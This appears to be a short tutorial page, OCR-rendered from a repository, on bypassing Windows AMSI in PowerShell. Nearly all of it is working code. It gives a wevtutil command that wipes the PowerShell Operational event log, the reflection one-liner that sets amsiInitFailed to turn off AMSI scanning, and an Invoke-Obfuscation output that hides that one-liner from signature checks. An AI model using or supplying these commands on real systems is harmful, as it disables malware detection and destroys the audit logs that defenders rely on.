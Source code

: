 ![image](./images/ps_eventvwr.jpg)

OK, so now what?

**Bypassing AMSI - How it works**

Let's clear the powershell event logs again:

```powershell
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
```

`NEW ONE`:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

>Invoke-obfuscation
>set scriptblock [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
>token
>string
>2

output =
```powershell
[Ref].Assembly.GetType(("{6}{4}{10}{3}{5}{7}{0}{11}{2}{1}{8}{9}"-f'.Auto','U','.Amsi','g','tem.','eme','Sys','nt','ti','ls','Mana','mation')).GetField(("{0}{1}{2}" -f 'amsi','InitFa','iled'),("{1}{0}{4}{2}{3}" -f'c','NonPubli','t','ic',',Sta')).SetValue($null,$true)
```
